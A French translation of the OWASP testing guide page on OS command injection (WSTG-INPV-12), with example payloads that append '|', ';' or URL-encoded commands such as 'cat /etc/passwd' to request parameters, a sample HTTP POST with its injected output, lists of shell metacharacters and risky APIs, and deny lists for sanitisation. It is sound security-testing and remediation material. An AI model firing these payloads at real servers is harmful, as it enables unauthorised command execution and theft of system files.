 # Test pour l'injection de commande

|ID          |
|------------|
|WSTG-INPV-12|

## Sommaire

Cet article explique comment tester une application pour l'injection de commandes de système d'exploitation. Le testeur essaiera d'injecter une commande du système d'exploitation via une requête HTTP à l'application.

L'injection de commandes OS est une technique utilisée via une interface web afin d'exécuter des commandes OS sur un serveur web. L'utilisateur fournit des commandes de système d'exploitation via une interface Web afin d'exécuter des commandes de système d'exploitation. Toute interface Web qui n'est pas correctement nettoyée est sujette à cet exploit. Avec la possibilité d'exécuter des commandes du système d'exploitation, l'utilisateur peut télécharger des programmes malveillants ou même obtenir des mots de passe. L'injection de commandes du système d'exploitation peut être évitée lorsque la sécurité est mise en avant lors de la conception et du développement d'applications.

## Objectifs des tests

- Identifier et évaluer les points d'injection de commandes.

## Comment tester

Lors de l'affichage d'un fichier dans une application Web, le nom du fichier est souvent affiché dans l'URL. Perl permet de diriger les données d'un processus vers une instruction ouverte. L'utilisateur peut simplement ajouter le symbole Pipe `|` à la fin du nom de fichier.

Exemple d'URL avant modification :

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

Exemple d'URL modifiée :

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

Cela exécutera la commande `/bin/ls`.

L'ajout d'un point-virgule à la fin d'une URL pour une page .PHP suivi d'une commande du système d'exploitation exécutera la commande. `% 3B` est encodé en URL et décodé en point-virgule

exemple :

`http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`

### exemple

Prenons le cas d'une application qui contient un ensemble de documents que vous pouvez parcourir à partir d'Internet. Si vous lancez un proxy personnel (tel que ZAP ou Burp Suite), vous pouvez obtenir un POST HTTP comme celui-ci (`http://www.exemple.com/public/doc`):

```txt
POST /public/doc HTTP/1.1
Host: www.exemple.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

Dans cette requête de publication, nous remarquons comment l'application récupère la documentation publique. Nous pouvons maintenant tester s'il est possible d'ajouter une commande du système d'exploitation à injecter dans le POST HTTP. Essayez ce qui suit (`http://www.exemple.com/public/doc`):

```txt
POST /public/doc HTTP/1.1
Host: www.exemple.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

Si l'application ne valide pas la requête, nous pouvons obtenir le résultat suivant :

```txt
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0
```

Dans ce cas, nous avons effectué avec succès une attaque par injection de système d'exploitation.

## Caractères spéciaux pour l'injection de commande

Le caractère spécial suivant peut être utilisé pour l'injection de commande tel que `|` `;` `&` `$` `>` `<` `'` `!`

- `cmd1|cmd2` : les utilisations de `|` feront que la commande 2 sera exécutée, que l'exécution de la commande 1 soit réussie ou non.
- `cmd1;cmd2` : L'utilisation de `;` fera en sorte que la commande 2 soit exécutée, que l'exécution de la commande 1 soit réussie ou non.
- `cmd1||cmd2` : La commande 2 ne sera exécutée que si l'exécution de la commande 1 échoue.
- `cmd1&&cmd2` : la commande 2 ne sera exécutée que si l'exécution de la commande 1 réussit.
- `$(cmd)` : Par exemple, `echo $(whoami)` ou `$(touch test.sh; echo 'ls' > test.sh)`
- `cmd` : Il est utilisé pour exécuter une commande spécifique. Par exemple, "whoami"
- `>(cmd)`: `>(ls)`
- `<(cmd)`: `<(ls)`

## Code Review API dangereuse

Soyez conscient des utilisations de l'API suivante car cela peut introduire des risques d'injection de commande.

### Java

- `Runtime.exec()`

### C/C++

- `system`
- `exec`
- `ShellExecute`

### Python

- `exec`
- `eval`
- `os.system`
- `os.popen`
- `subprocess.popen`
- `subprocess.call`

### PHP

- `system`
- `shell_exec`
- `exec`
- `proc_open`
- `eval`

## Correction

### Assainissement

L'URL et les données de formulaire doivent être filtrées pour les caractères non valides. Une liste de refus de caractères est une option, mais il peut être difficile de penser à tous les caractères à valider. Il se peut aussi que certains n'aient pas encore été découverts. Une liste d'autorisation contenant uniquement des caractères autorisés ou une liste de commandes doit être créée pour valider l'entrée de l'utilisateur. Les personnages qui ont été manqués, ainsi que les menaces non découvertes, doivent être éliminés de cette liste.

La liste de refus générale à inclure pour l'injection de commande peut être `|` `;` `&` `$` `>` `<` `'` `\` `!` `>>` `#`

Échappez ou filtrez les caractères spéciaux pour Windows,   `(` `)` `<` `>` `&` `*` `'` `|` `=` `?` `;` `[` `]` `^` `~` `!` `.` `"` `%` `@` `/` `\` `:` `+` `,` ``` ` ```
Échappez ou filtrez les caractères spéciaux pour Linux, `{` `}` `(` `)` `>` `<` `&` `*` `'` `|` `=` `?` `;` `[` `]` `$` `–` `#` `~` `!` `.` `"` `%`  `/` `\` `:` `+` `,` ``` ` ```

### Autorisations

L'application Web et ses composants doivent être exécutés avec des autorisations strictes qui n'autorisent pas l'exécution de commandes du système d'exploitation. Essayez de vérifier toutes ces informations pour tester d'un point de vue de test de boîte grise.

## Outils

- OWASP [WebGoat](https://owasp.org/www-project-webgoat/)
- [Commix](https://github.com/commixproject/commix)

## Références

- [Tests d'intrusion pour les applications Web (deuxième partie)](https://www.symantec.com/connect/articles/penetration-testing-web-applications-part-two)
- [Commande du système d'exploitation](http://projects.webappsec.org/w/page/13246950/OS%20Commanding)
- [CWE-78 : Neutralisation incorrecte d'éléments spéciaux utilisés dans une commande de système d'exploitation ("injection de commande de système d'exploitation")](https://cwe.mitre.org/data/definitions/78.html)
- [ENV33-C. Ne pas appeler system()](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=87152177)
